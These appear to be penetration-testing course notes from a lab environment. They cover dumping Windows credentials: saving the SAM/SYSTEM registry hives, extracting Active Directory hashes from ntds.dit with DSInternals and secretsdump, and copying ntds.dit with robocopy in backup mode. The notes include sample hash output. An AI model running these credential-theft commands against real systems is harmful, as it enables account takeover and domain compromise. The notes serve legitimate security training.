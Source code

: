 **Backing up SAM and SYSTEM Registry Hives**

to extract local account credentials offline using a tool such as Impacket's `secretsdump.py`

```cmd-session
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```

**Extracting Credentials from NTDS.dit**

use a tool such as `secretsdump.py` or the PowerShell `DSInternals` module to extract all Active Directory account credentials

```powershell-session
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

Get just the `administrator` account for the domain using `DSInternals`

&#x20;**Extracting Hashes Using SecretsDump**

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
. . .
```

### Robocopy

**Copying Files with Robocopy**

Robocopy is a command-line directory replication tool.

```cmd-session
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, May 6, 2021 1:11:47 PM
   Source : E:\Windows\NTDS\
     Dest : C:\Tools\ntds\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

```